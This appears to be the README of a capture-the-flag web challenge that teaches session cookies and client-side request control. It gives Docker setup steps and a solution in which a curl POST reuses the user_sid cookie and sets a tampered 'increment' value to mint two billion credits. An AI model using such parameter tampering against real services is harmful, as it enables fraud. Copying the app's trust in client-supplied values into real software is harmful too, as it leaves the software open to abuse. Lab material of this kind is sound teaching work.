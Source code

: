 # POST modification
The objective of this is to help the user understand session cookies, as well as help them understand how to control client side requests. 

## Challenge flavor
Try testing out this new credit system that I just created! 

		http://<address>

hint: Credit generation is rate limited. It is literally impossible to generate 2,000,000,000 credits within the CTF timeframe.

## Setup
Build and run docker container

        sudo docker build -t credits .

		sudo docker run credits

## Solution
After logging in, make note of the user_sid cookie. Instead of bruteforcing the credit generation, simply send a POST request with a modified "increment" value as such:

curl -d "increment=2000000000" -b user_sid="<get_user_sid_cookie_from_browser>" -H "Content-Type: application/x-www-form-urlencoded" -X POST http://<website_address>/newcredit
